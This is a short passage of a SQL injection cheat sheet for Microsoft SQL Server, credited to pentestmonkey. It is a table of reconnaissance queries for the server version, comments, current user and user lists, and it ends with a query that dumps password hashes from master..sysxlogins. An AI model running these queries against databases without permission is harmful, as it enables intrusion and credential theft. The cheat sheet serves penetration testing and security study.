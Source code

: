Acquired from http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

| Detail                      	| SQL Command                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           	|
|------------------------------	|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------	|
| Version                      	| SELECT @@version                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      	|
| Comments                     	| SELECT 1 — comment                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    	|
|                              	| SELECT /*comment*/1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   	|
| Current User                 	| SELECT user_name();                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   	|
|                              	| SELECT system_user;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   	|
|                              	| SELECT user;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          	|
|                              	| SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID                                                                                                                                                                                                                                                                                                                                                                                                                                         	|
| List Users                   	| SELECT name FROM master..syslogins                                                                                                                                                                                                                                                                                                                                                                                                                                                                    	|
| List Password Hashes         	| SELECT name, password FROM master..sysxlogins — priv, mssql 2000;                                                                                                                                                                                                                                                                                                                                                                                                                                     	|